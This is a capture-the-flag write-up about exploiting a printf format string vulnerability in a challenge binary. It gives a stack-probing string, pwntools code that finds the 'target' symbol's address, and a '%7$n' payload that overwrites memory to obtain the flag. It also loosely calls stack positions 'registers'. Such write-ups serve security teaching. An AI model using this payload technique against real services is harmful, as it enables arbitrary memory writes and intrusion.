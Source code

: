 # Challenge `Write to Memory` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to write in arbitrary memory

## Steps to Reproduce

Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To get the address of the `target` variable we use:
```py
elf = ELF("03_write")
target_address = elf.symbols['target']
```

Then, to get the flag, we connect to the server and send the following payload to write the adress of the `target` variable to the 7th register:
```py
io = connect(HOST, PORT)
payload = p32(target_address) + b"%7$n"
io.sendline(payload)
```

## Implementation

Implementation [here](write-to-memory.py).